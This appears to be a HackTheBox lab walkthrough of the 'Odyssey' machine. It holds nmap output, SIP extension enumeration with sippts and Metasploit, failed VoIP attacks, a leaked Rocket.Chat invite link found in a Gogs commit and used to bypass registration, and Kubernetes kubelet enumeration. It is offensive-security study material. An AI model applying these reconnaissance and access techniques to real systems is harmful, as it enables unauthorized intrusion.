






I will repost the NMAP report from the previous page:

```
3000/tcp  open  ppp?          syn-ack ttl 64
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-XSS-Protection: 1
|     X-Instance-ID: bo9CugcPKaEWQe7w3
|     Content-Type: text/html; charset=utf-8
|     Vary: Accept-Encoding
|     Date: Fri, 12 Jan 2024 11:46:09 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <link rel="stylesheet" type="text/css" class="__meteor-css__" href="/3ab95015403368c507c78b4228d38a494ef33a08.css?meteor_css_resource=true">
|     <meta charset="utf-8" />
|     <meta http-equiv="content-type" content="text/html; charset=utf-8" />
|     <meta http-equiv="expires" content="-1" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <meta name="fragment" content="!" />
|     <meta name="distribution" content="global" />
|     <meta name="rating" content="general" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no" />
|     <meta name="mobile-web-app-capable" content="yes" />
|     <meta name="apple-mobile-web-app-capable" conten
|   Help, NCP: 
|_    HTTP/1.1 400 Bad Request
5039/tcp  open  ssl/asterisk  syn-ack ttl 64 Asterisk Call Manager 5.0.0
| ssl-cert: Subject: commonName=HTB/organizationName=HackTheBox/stateOrProvinceName=Athens/countryName=GR/localityName=Piraeus/emailAddress=ch4p@odyssey.htb
| Issuer: commonName=HTB/organizationName=HackTheBox/stateOrProvinceName=Athens/countryName=GR/localityName=Piraeus/emailAddress=ch4p@odyssey.htb
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-04-18T13:45:50
| Not valid after:  2020-05-18T13:45:50
| MD5:   f59d:fb25:8455:4019:da11:39ee:a794:3de7
| SHA-1: 8c0b:dfef:a2c5:b2ec:4ce0:a699:a70d:d9dd:2cbc:bc9a
|_ssl-date: TLS randomness does not represent time
8080/tcp  open  http-proxy    syn-ack ttl 64
|_http-title: Odyssey
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gogs=10edb6753a6d2445; Path=/; HttpOnly
|     Set-Cookie: _csrf=7YdElKRl9e04Muo9NXAgJTO9PKY6MTcwNTA1OTk2NTYzNzQ3MjMxNA; Path=/; Domain=localhost; Expires=Sat, 13 Jan 2024 11:46:05 GMT; HttpOnly
|     X-Content-Type-Options: nosniff
|     Date: Fri, 12 Jan 2024 11:46:05 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
|     <meta name="author" content="Gogs" />
|     <meta name="description" content="Gogs is a painless self-hosted Git service" />
|     <meta name="keywords" content="go, git, self-hosted, gogs">
|     <meta name="referrer" content="no-referrer" />
|     <meta name="_csrf" content="7YdElKRl9e04Muo9NXAgJTO9PKY6MTcwNTA1OTk2NTYzNzQ3MjMxNA" />
|     <meta
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gogs=f8a17ed4947b64d5; Path=/; HttpOnly
|     Set-Cookie: _csrf=xUvNP1VklZ8UYNZ4U_hZqicqQ7Y6MTcwNTA1OTk2NTI1NDYxNDc0OA; Path=/; Domain=localhost; Expires=Sat, 13 Jan 2024 11:46:05 GMT; HttpOnly
|     X-Content-Type-Options: nosniff
|     Date: Fri, 12 Jan 2024 11:46:05 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
|     <meta name="author" content="Gogs" />
|     <meta name="description" content="Gogs is a painless self-hosted Git service" />
|     <meta name="keywords" content="go, git, self-hosted, gogs">
|     <meta name="referrer" content="no-referrer" />
|     <meta name="_csrf" content="xUvNP1VklZ8UYNZ4U_hZqicqQ7Y6MTcwNTA1OTk2NTI1NDYxNDc0OA" />
|     <meta name="
|   HTTPOptions: 
|     HTTP/1.0 500 Internal Server Error
|     Content-Type: text/plain; charset=utf-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     X-Content-Type-Options: nosniff
|     Date: Fri, 12 Jan 2024 11:46:05 GMT
|     Content-Length: 108
|     template: base/footer:15:47: executing "base/footer" at <.PageStartTime>: invalid value; expected time.Time
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request
10022/tcp open  ssh           syn-ack ttl 64 OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 90:32:c4:f8:e8:0f:41:4c:57:ea:64:dd:c0:c7:83:fc (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCbHIg+o1DgVsX6Jidl1u9evQ9PkoT8/X9IQmuxfpskPfe1/k3fJw4hY6zdeZhozr1YlMvlJZT73H3hvQ0OeJ89Yv/OSE2WJGPZrQ0OftPJZft5LAZownjIfI3FkTlh3K7CkahepR+FfllnC7sFWcXiPgLradPNtbDiax33193t/2udAwDU+admeSXkIDlsYLETSza9I+hd/pgV/0uGZt2H7hksDEGQmqn7c8buUZSokteOspzZjbD3Dm6gIryUXrc/KCiduQOGjz/mz0Af8qNlUHX5hxiGHR8up5k+o9S0sHj1nWx9a8G0SGXZa86oSZrTIy3gUa0bipDifx6FwHQ2t5sDlBM7oJzXIxftOKQHQQkZpvApMASSWXRolQHu9w3RcC/sM5PVUncg7N6mgpFsiwh2EcBOze0LyQcpEfvYsC42r02A1LpfOZXMj5uq5WY9jYDEWHn3mv1jSbe1Ofw8idiShsA5Stcx9+vnGc/fFBT4Dz0trBFuEx6Z8NBTfUs=
|   256 76:c9:ef:38:1d:9d:de:fb:93:01:cf:60:d9:16:0e:92 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMBGWEtZNz9vnhdKYMHlx98o2a/Gnce07uF5GjTQEHNwsUDbPtq7y6m5UmbhgDptR1ffx+0GeTr0JZyOjhjU7Sw=
|   256 c1:58:53:71:a2:16:74:4f:c2:ed:60:49:19:b6:78:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMOihQ3/ZScGhO7XepyhWVuSvDtpnl0kWB2ZD6rVAI4P
10250/tcp open  ssl/http      syn-ack ttl 64 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| tls-alpn: 
|   h2
|_  http/1.1
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
| ssl-cert: Subject: commonName=odyssey@1616498255
| Subject Alternative Name: DNS:odyssey
| Issuer: commonName=odyssey-ca@1616498255
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-03-23T10:17:33
| Not valid after:  2022-03-23T10:17:33
| MD5:   6ccf:9a35:58cb:fa78:d19e:de51:9830:8d1b
| SHA-1: f3c3:1e80:ddf1:f856:caa4:e165:8993:303a:3647:8bbb
|_ssl-date: TLS randomness does not represent time
10255/tcp open  http          syn-ack ttl 64 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
10257/tcp open  ssl/unknown   syn-ack ttl 64
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=localhost@1705029261
| Subject Alternative Name: DNS:localhost, DNS:localhost, IP Address:127.0.0.1
| Issuer: commonName=localhost-ca@1705029260
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-12T02:14:18
| Not valid after:  2025-01-11T02:14:18
| MD5:   df9c:243e:63b7:6424:2d09:01b1:436e:ee9b
| SHA-1: e59a:553d:914b:19bd:eb91:0d6f:d963:3620:4aec:1297
| fingerprint-strings: 
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 403 Forbidden
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     Date: Fri, 12 Jan 2024 11:46:16 GMT
|     Content-Length: 185
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot get path "/"","reason":"Forbidden","details":{},"code":403}
|   HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     Date: Fri, 12 Jan 2024 11:46:17 GMT
|     Content-Length: 189
|_    {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot options path "/"","reason":"Forbidden","details":{},"code":403}
10259/tcp open  ssl/unknown   syn-ack ttl 64
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings: 
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 403 Forbidden
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     Date: Fri, 12 Jan 2024 11:46:16 GMT
|     Content-Length: 185
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot get path "/"","reason":"Forbidden","details":{},"code":403}
|   HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     Date: Fri, 12 Jan 2024 11:46:17 GMT
|     Content-Length: 189
|_    {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot options path "/"","reason":"Forbidden","details":{},"code":403}
| ssl-cert: Subject: commonName=localhost@1705029259
| Subject Alternative Name: DNS:localhost, DNS:localhost, IP Address:127.0.0.1
| Issuer: commonName=localhost-ca@1705029258
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-12T02:14:17
| Not valid after:  2025-01-11T02:14:17
| MD5:   43a7:2baf:4a15:d0d6:f1d0:e2e6:0342:1241
| SHA-1: f423:49a8:dddd:7446:cf66:2ea8:3844:4486:a91d:151b
16443/tcp open  ssl/unknown   syn-ack ttl 64
| ssl-cert: Subject: commonName=127.0.0.1/organizationName=Canonical/stateOrProvinceName=Canonical/countryName=GB/localityName=Canonical/organizationalUnitName=Canonical
| Subject Alternative Name: DNS:kubernetes, DNS:kubernetes.default, DNS:kubernetes.default.svc, DNS:kubernetes.default.svc.cluster, DNS:kubernetes.default.svc.cluster.local, IP Address:127.0.0.1, IP Address:10.152.183.1, IP Address:192.168.21.12, IP Address:172.17.0.1, IP Address:10.1.148.128
| Issuer: commonName=10.152.183.1
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-12T03:14:10
| Not valid after:  2025-01-11T03:14:10
| MD5:   0f61:4794:09ed:5eea:f78b:c2dd:1632:0e7a
| SHA-1: 1bed:0539:f2ee:f400:4e71:106c:3242:dd76:35d5:a5b8
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 401 Unauthorized
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     Date: Fri, 12 Jan 2024 11:46:44 GMT
|     Content-Length: 129
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"Unauthorized","reason":"Unauthorized","code":401}
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 401 Unauthorized
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     Date: Fri, 12 Jan 2024 11:46:16 GMT
|     Content-Length: 129
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"Unauthorized","reason":"Unauthorized","code":401}
|   HTTPOptions: 
|     HTTP/1.0 401 Unauthorized
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     Date: Fri, 12 Jan 2024 11:46:17 GMT
|     Content-Length: 129
|_    {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"Unauthorized","reason":"Unauthorized","code":401}
25000/tcp open  icl-twobase1? syn-ack ttl 64
```

* * *

## Port 3000:

Looking on this port we can see that is hosting Rocket chat:



Now we still don't have valid credentials but looking around seems like we have some CVE availables:  https://www.exploit-db.com/exploits/50108

But it haven't worked out, next googing a bit more found out about this one! https://r0b0tg4ng.github.io/posts/Exploiting-RocketChat/

Even this is not working as we don't have that particular exe. I will move on for now.

* * *

## Port 5039:

This port is related to Asterisk\* the VOIP solution, and here I confess I have never pentested a VOIP solution but we can start by footprinting the solution.

```
┌──(root㉿kali)-[/home/millycash/Downloads/Tools/sippts]
└─# sipscan -i 192.168.21.12 -p all -r 5060-5080 -th 200 -ua Cisco -m REGISTER

☎️  SIPPTS BY 🅿 🅴 🅿 🅴 🅻 🆄 🆇

█████████████████████████████████████████████
█─▄▄▄▄█▄─▄█▄─▄▄─███─▄▄▄▄█─▄▄▄─██▀▄─██▄─▀█▄─▄█
█▄▄▄▄─██─███─▄▄▄███▄▄▄▄─█─███▀██─▀─███─█▄▀─██
▀▄▄▄▄▄▀▄▄▄▀▄▄▄▀▀▀▀▀▄▄▄▄▄▀▄▄▄▄▄▀▄▄▀▄▄▀▄▄▄▀▀▄▄▀
            
💾 https://github.com/Pepelux/sippts
🐦 https://twitter.com/pepeluxx

[✓] IP/Network: 192.168.21.12
[✓] Port range: 5060-5080
[✓] Protocols: UDP, TCP, TLS
[✓] Method to scan: REGISTER
[✓] Customized User-Agent: Cisco
[✓] Used threads: 63

 ----------------------------------------------------------------------------------------------                  
| IP address    | Port | Proto | Response         | User-Agent                        | Type   |
 ----------------------------------------------------------------------------------------------
| 192.168.21.12 | 5060 | UDP   | 401 Unauthorized | Asterisk PBX 16.2.1~dfsg-2ubuntu1 | Server |
 ----------------------------------------------------------------------------------------------

Time elapsed: 2 sec(s)
```

Now the tool identified the backend as Asterisk version 16.2.1 which is BTW not new but couldn't find a good exploit for it!

We can enumerate the extensions but seems like all of them are used?

```
msf6 auxiliary(scanner/sip/enumerator) > run

[+] Found user: 0000 <sip:0000@192.168.21.12> [Auth]
[+] Found user: 0005 <sip:0005@192.168.21.12> [Auth]
[+] Found user: 0071 <sip:0071@192.168.21.12> [Auth]
[+] Found user: 0076 <sip:0076@192.168.21.12> [Auth]
[+] Found user: 0101 <sip:0101@192.168.21.12> [Auth]
[+] Found user: 0111 <sip:0111@192.168.21.12> [Auth]
[+] Found user: 0114 <sip:0114@192.168.21.12> [Auth]
[+] Found user: 0116 <sip:0116@192.168.21.12> [Auth]
[+] Found user: 0119 <sip:0119@192.168.21.12> [Auth]
[+] Found user: 0121 <sip:0121@192.168.21.12> [Auth]
[+] Found user: 0141 <sip:0141@192.168.21.12> [Auth]
[+] Found user: 0142 <sip:0142@192.168.21.12> [Auth]
[+] Found user: 0145 <sip:0145@192.168.21.12> [Auth]
```

We could try the SIPDigvest leak: https://book.hacktricks.xyz/network-services-pentesting/pentesting-voip#sipdigestleak

But it is not workin:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Tools/sippts]
└─# sipdigestleak -i voip.htb

☎️  SIPPTS BY 🅿 🅴 🅿 🅴 🅻 🆄 🆇

█████████████████████████████████▀█████████████████████████████████████████████
█─▄▄▄▄█▄─▄█▄─▄▄─███▄─▄▄▀█▄─▄█─▄▄▄▄█▄─▄▄─█─▄▄▄▄█─▄─▄─███▄─▄███▄─▄▄─██▀▄─██▄─█─▄█
█▄▄▄▄─██─███─▄▄▄████─██─██─██─██▄─██─▄█▀█▄▄▄▄─███─██████─██▀██─▄█▀██─▀─███─▄▀██
▀▄▄▄▄▄▀▄▄▄▀▄▄▄▀▀▀▀▀▄▄▄▄▀▀▄▄▄▀▄▄▄▄▄▀▄▄▄▄▄▀▄▄▄▄▄▀▀▄▄▄▀▀▀▀▄▄▄▄▄▀▄▄▄▄▄▀▄▄▀▄▄▀▄▄▀▄▄▀
            
💾 https://github.com/Pepelux/sippts
🐦 https://twitter.com/pepeluxx


Press Ctrl+C to stop


[✓] Target: 192.168.21.12:5060/UDP

[=>] Request INVITE
[<=] Response 404 Not Found
No Auth Digest received :(

 ----------------------------------------------
| IP address    | Port | Proto | Response      |
 ----------------------------------------------
| 192.168.21.12 | 5060 | UDP   | 404 Not Found |
 ----------------------------------------------
```

We could try the RTPBleed: https://book.hacktricks.xyz/network-services-pentesting/pentesting-voip#rtcpbleed

But after 10 minutes nothing got back:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Tools/sippts]
└─# rtpbleed -i voip.htb

☎️  SIPPTS BY 🅿 🅴 🅿 🅴 🅻 🆄 🆇

███████████████████████████████████████████████████
█▄─▄▄▀█─▄─▄─█▄─▄▄─███▄─▄─▀█▄─▄███▄─▄▄─█▄─▄▄─█▄─▄▄▀█
██─▄─▄███─████─▄▄▄████─▄─▀██─██▀██─▄█▀██─▄█▀██─██─█
▀▄▄▀▄▄▀▀▄▄▄▀▀▄▄▄▀▀▀▀▀▄▄▄▄▀▀▄▄▄▄▄▀▄▄▄▄▄▀▄▄▄▄▄▀▄▄▄▄▀▀
            
💾 https://github.com/Pepelux/sippts
🐦 https://twitter.com/pepeluxx

[✓] Target IP: voip.htb
[✓] Port range: 10000-20000
[✓] Payload type: 0
[✓] Number of tries per port: 4
[✓] Delay between tries: 50 microseconds

^C] Checking port: 16472 with payload type 0 (Seq number: 4)  
You pressed Ctrl+C!
```

I will move on for now!

* * *

## Port 8080:

Here we can find a GOGS git self hosted where we can see source code of a BOT used in Rocket.chat:



From the explore Organization we can see that there are 4 users in the organization where we can see their email as well:

```
elpenor
 Greece  elpenor@odyssey.htb  Joined on Apr 15, 2020
 
creon
 Greece  creon@odyssey.htb  Joined on Apr 15, 2020
 
aeolus
 Greece  aeolus@odyssey.htb  Joined on Apr 16, 2020
```

Looking deeper into git server we can see a commit that have been removed from the Rocket chat:


Checking that we can see that there should be a invite link to join the rocket chat?

```
const t = `${d.getHours()}:${d.getMinutes()} and ${d.getSeconds()} seconds`
     res.reply(`It's ${t}`)
   })
+  
+  robot.respond(/(invite)/gi, (res) => {
+    const d = "http://odyssey.htb:3000/register/k56qzdYwgYoBDuJ6y"
+    res.reply(d)
+  })
```

Indeed using the link we can bypass the register page and gain access to the rocket.chat.

&nbsp;

* * *

## Kubernetes :

All the remaining ports from the 102XX are part of Kubernetes, more specifically we have the 10250 which is the API(RW) and the 10255 which is the API(ReadOnly) so we can use this [tool](https://github.com/cyberark/kubeletctl) to interrogate Kubernetes and it's pods:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Tools/registry-cli]
└─# kubeletctl pods -s voip.htb --port 10255 --http
┌───────────────────────────────────────────────────────────────────────────────────────┐
│                                   Pods from Kubelet                                   │
├───┬─────────────────────────────────────────┬───────────────┬─────────────────────────┤
│   │ POD                                     │ NAMESPACE     │ CONTAINERS              │
├───┼─────────────────────────────────────────┼───────────────┼─────────────────────────┤
│ 1 │ fleet-agent-55bfc495bd-52h4b            │ fleet-system  │ fleet-agent             │
│   │                                         │               │                         │
├───┼─────────────────────────────────────────┼───────────────┼─────────────────────────┤
│ 2 │ calico-kube-controllers-847c8c99d-rgfc5 │ kube-system   │ calico-kube-controllers │
│   │                                         │               │                         │
├───┼─────────────────────────────────────────┼───────────────┼─────────────────────────┤
│ 3 │ calico-node-9fffb                       │ kube-system   │ calico-node             │
│   │                                         │               │                         │
├───┼─────────────────────────────────────────┼───────────────┼─────────────────────────┤
│ 4 │ cattle-cluster-agent-59bf8ddb8-plhdx    │ cattle-system │ cluster-register        │
│   │                                         │               │                         │
```

Ok so we have 4 running pods(aka like containers for Docker), we could use another tool called kube-hunter that can help us enumeate Kubernets in all it's API,PODS,Vulns etc

```
┌──(root㉿kali)-[/home/millycash/Downloads/Tools/kube-hunter]
└─# kube-hunter --remote voip.htb
/usr/local/lib/python3.11/dist-packages/requests/__init__.py:87: RequestsDependencyWarning: urllib3 (1.26.18) or chardet (5.1.0) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "
2024-01-12 18:06:02,558 INFO kube_hunter.modules.report.collector Started hunting
2024-01-12 18:06:02,558 INFO kube_hunter.modules.report.collector Discovering Open Kubernetes Services
2024-01-12 18:06:04,289 INFO kube_hunter.modules.report.collector Found open service "Kubelet API" at voip.htb:10250
2024-01-12 18:06:04,294 INFO kube_hunter.modules.report.collector Found open service "Kubelet API (readonly)" at voip.htb:10255
2024-01-12 18:06:04,647 INFO kube_hunter.modules.report.collector Found vulnerability "Privileged Container" in voip.htb:10255
2024-01-12 18:06:04,647 INFO kube_hunter.modules.report.collector Found vulnerability "Cluster Health Disclosure" in voip.htb:10255
